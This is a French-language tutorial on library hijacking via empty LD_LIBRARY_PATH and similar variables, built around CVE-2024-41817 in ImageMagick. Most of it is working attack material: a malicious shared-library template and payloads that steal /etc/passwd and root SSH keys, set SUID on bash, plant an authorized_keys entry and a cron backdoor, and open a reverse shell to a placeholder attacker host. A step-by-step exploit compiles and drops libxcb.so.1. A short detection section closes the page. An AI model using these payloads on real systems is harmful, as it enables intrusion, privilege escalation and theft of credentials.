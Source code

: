 # EMPTY ENV VARIABLES AND LIBRARY HIJACKING

## <mark style="color:red;">Library Hijacking via Variables d'Environnement Vides</mark>

### <mark style="color:blue;">Description de la faille</mark>

Le **Library Hijacking** via variables d'environnement vides est une technique d'exploitation qui tire parti d'un défaut de configuration dans la résolution des chemins de bibliothèques partagées. Lorsqu'une application définit des variables d'environnement avec des valeurs vides ou nulles pour localiser ses bibliothèques, le système d'exploitation va chercher ces bibliothèques dans le répertoire de travail actuel (CWD).

***

### <mark style="color:blue;">Mécanisme technique</mark>

#### <mark style="color:green;">Variables d'environnement critiques</mark>

Les principales variables exploitables sont :

* **`LD_LIBRARY_PATH`** : Chemin vers les bibliothèques partagées (.so)
* **`PATH`** : Chemin vers les exécutables
* **Variables spécifiques** : Comme `MAGICK_CONFIGURE_PATH` pour ImageMagick

#### <mark style="color:green;">Processus d'exploitation</mark>

```
1. Application définie : LD_LIBRARY_PATH=""
2. Système cherche dans : . (répertoire courant)
3. Attaquant place : bibliothèque malveillante
4. Application charge : bibliothèque de l'attaquant
5. Code malveillant : s'exécute automatiquement
```

***

### <mark style="color:blue;">Anatomie d'une bibliothèque malveillante</mark>

#### <mark style="color:green;">Structure de base</mark>

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Constructeur : s'exécute au chargement de la bibliothèque
__attribute__((constructor)) void malicious_init() {
    // Code malveillant ici
    system("whoami > /tmp/hijack_proof.txt");
    // L'application continue normalement après
}

// Fonctions légitimes pour maintenir la compatibilité
int legitimate_function() {
    return 0;
}
```

#### <mark style="color:green;">Types de payloads</mark>

**1. Exfiltration de données**

```c
system("cp /etc/passwd /tmp/stolen_passwd");
system("cp /root/.ssh/id_rsa /tmp/stolen_key");
```

**2. Escalade de privilèges**

```c
system("chmod +s /bin/bash");  // SetUID sur bash
system("cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell");
```

**3. Persistance**

```c
system("echo 'attacker_key' >> /root/.ssh/authorized_keys");
system("crontab -l > /tmp/cron_backup; echo '* * * * * /tmp/backdoor' | crontab -");
```

**4. Reverse shell**

```c
system("bash -i >& /dev/tcp/attacker_ip/4444 0>&1 &");
```

***

### <mark style="color:blue;">Exemple concret : CVE-2024-41817 (ImageMagick)</mark>

#### <mark style="color:green;">Contexte</mark>

ImageMagick 7.1.1-35 définit parfois `MAGICK_CONFIGURE_PATH=""` et `LD_LIBRARY_PATH=""`, causant une recherche dans le CWD.

#### <mark style="color:green;">Exploitation pratique</mark>

**1. Reconnaissance**

```bash
# Vérifier la version
identify --version

# Localiser les scripts utilisant ImageMagick
find /opt -name "*.sh" -exec grep -l "identify\|convert" {} \;
```

**2. Analyse du script cible**

```bash
#!/bin/bash
# /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images/
identify *.jpg *.png 2>/dev/null
```

**3. Création de la bibliothèque malveillante**

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /tmp/root.txt; chmod 755 /tmp/root.txt");
    exit(0);
}
EOF
```

**4. Déploiement et déclenchement**

```bash
# Placer la bibliothèque dans le répertoire de travail
cp libxcb.so.1 /opt/app/static/assets/images/

# La bibliothèque sera chargée lors de la prochaine exécution d'ImageMagick
```

***

### <mark style="color:blue;">Vecteurs d'attaque communs</mark>

#### Applications vulnérables typiques

* **ImageMagick** : `MAGICK_CONFIGURE_PATH`, `LD_LIBRARY_PATH`
* **Python** : `PYTHONPATH`
* **Java** : `CLASSPATH`, `LD_LIBRARY_PATH`
* **Node.js** : `NODE_PATH`
* **Perl** : `PERL5LIB`

#### <mark style="color:green;">Scénarios d'exploitation</mark>

**1. Scripts automatisés**

```bash
# Script qui traite des fichiers utilisateur
cd /uploads/user_files/
process_files.sh  # Vulnérable si LD_LIBRARY_PATH=""
```

**2. Services web**

```python
# Application web qui traite des uploads
import os
os.chdir('/var/www/uploads/')
os.system('identify uploaded_image.jpg')  # Vulnérable
```

**3. Tâches cron**

```bash
# Cron job qui s'exécute dans un répertoire utilisateur
0 * * * * cd /home/user/data && process_data
```

***

### <mark style="color:blue;">Techniques de détection</mark>

#### <mark style="color:green;">Surveillance en temps réel</mark>

**1. Monitoring des bibliothèques chargées**

```bash
# Utiliser strace pour surveiller les chargements
strace -e trace=openat -f -p PID 2>&1 | grep "\.so"

# Utiliser lsof pour voir les bibliothèques ouvertes
lsof -p PID | grep "\.so"
```

**2. Audit des variables d'environnement**

```bash
# Vérifier les variables d'environnement d'un processus
cat /proc/PID/environ | tr '\0' '\n' | grep -E "(PATH|LD_LIBRARY_PATH)"
```

**3. Surveillance des fichiers**

```bash
# Surveiller la création de .so dans des répertoires suspects
inotifywait -m -r /tmp /var/tmp /uploads --include="\.so$"
```
